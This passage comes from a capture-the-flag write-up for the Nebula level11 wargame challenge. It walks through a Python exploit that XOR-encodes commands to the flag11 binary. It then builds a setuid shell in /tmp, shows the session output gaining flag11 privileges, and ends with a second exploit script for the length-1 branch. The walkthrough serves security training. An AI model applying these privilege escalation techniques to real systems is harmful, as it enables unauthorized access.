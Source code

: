 Now, modify the python exploit to execute the following command:

```lang-bash line-numbers 
command = "gcc -o /tmp/shell /tmp/shell.c; chmod +s /tmp/shell\x00"
```

Run the exploit and look for our setuid shell on /tmp:

```lang-bash line-numbers 
level11@nebula:~$ python exploit.py | /home/flag11/flag11
blue = 1024, length = 1024, pink = 1024
level11@nebula:~$ ls -la /tmp
total 28
drwxrwxrwt  4 root    root    4096 Nov 24 11:50 .
drwxr-xr-x 22 root    root    4096 Dec  6  2011 ..
drwxrwxrwt  2 root    root    4096 Nov 23 21:10 VMwareDnD
-rwsrwsr-x  1 flag11  level11 7241 Nov 24 11:50 shell
-rw-rw-r--  1 level11 level11  180 Nov 24 11:48 shell.c
drwx------  2 root    root    4096 Nov 23 21:10 vmware-root
```

Run the shell:

```lang-bash line-numbers 
level11@nebula:~$ /tmp/shell
sh-4.2$ id
uid=988(flag11) gid=1012(level11) groups=988(flag11),1012(level11)
sh-4.2$ getflag
You have successfully executed getflag on a target account
```

Voila!! but we also mentioned that there was a second branch leading to the command execution. If content length is smaller than 1024, then **fread** will read one block of "length" bytes and return the value of blocks read, that will always be **1**. So if we want to avoid the **err** call, we need to set the length to **1**. The problem is that if length is **1** our exploiting proabibilities decrease :(
We can create a bash script named with only one letter like "e":

```lang-bash line-numbers 
level11@nebula:~$ cat e
#!/bin/bash
getflag
```

Now we will create a modified version of our exploit for content-length **1**:

```lang-python line-numbers 
#!/usr/bin/env python

command = "e"
length = 1
key = length & 0xff

encrypted = ""
for i in range(len(command)):
        enc = (ord(command[i]) ^ key) & 0xff; # unsigned int
        encrypted += chr(enc)
        key = (key - ord(command[i])) & 0xff # unsigned int

print "Content-Length: " + str(length) + "\n" + encrypted + "A"*(length - len(encrypted))
```
